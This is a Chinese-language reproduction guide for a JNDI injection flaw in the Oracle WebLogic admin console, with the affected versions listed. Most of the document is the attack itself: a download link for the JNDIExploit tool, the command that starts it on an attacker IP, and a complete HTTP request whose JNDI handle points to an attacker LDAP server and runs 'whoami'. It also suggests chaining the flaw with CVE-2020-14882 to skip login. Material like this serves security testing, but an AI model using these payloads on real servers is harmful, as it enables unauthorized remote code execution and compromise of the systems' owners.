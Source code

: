 # 0x00 软件介绍
Oracle WebLogic：一款流行的JAVA应用服务器

# 0x01 复现环境
复现环境：本地搭建的环境（win10 1909）  
复现版本：WebLogic v12.2.1.4.0  
环境搭建：  
参考[https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA](https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA)中的环境搭建部分

# 0x02 利用条件
需要登陆WebLogic控制台

# 0x03 影响版本
10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0

# 0x04 漏洞复现
攻击环境：kali x64  
下载JNDIExploit：https://github.com/feihong-cs/JNDIExploit/releases/download/v.1.11/JNDIExploit.v1.11.zip  
启动JNDIExploit：  
```
java -jar ./JNDIExploit-v1.11.jar -i 192.168.1.5#其中192.168.1.5为本机IP
```
登录WebLogic控制台  
刷新WebLogic控制台，burp抓包，替换为如下payload
```
POST /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;5:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.1.7:7001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cmd:whoami
Referer: http://192.168.1.7:7001/console/login/LoginForm.jsp
Connection: close
Cookie: ADMINCONSOLESESSION=-XjUGJChfEBvqXqZBo748vnBGr895IIDGF5cmnoR9HkR_uY8Hrfd!-1181708775
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
如下图，可以看到成功执行命令whoami  
![image](./0.png)

此漏洞可配合Weblogic未授权访问漏洞（CVE-2020-14882）使用

# 0x05 批量脚本
无

# 0x06 参考链接
https://www.o2oxy.cn/3019.html

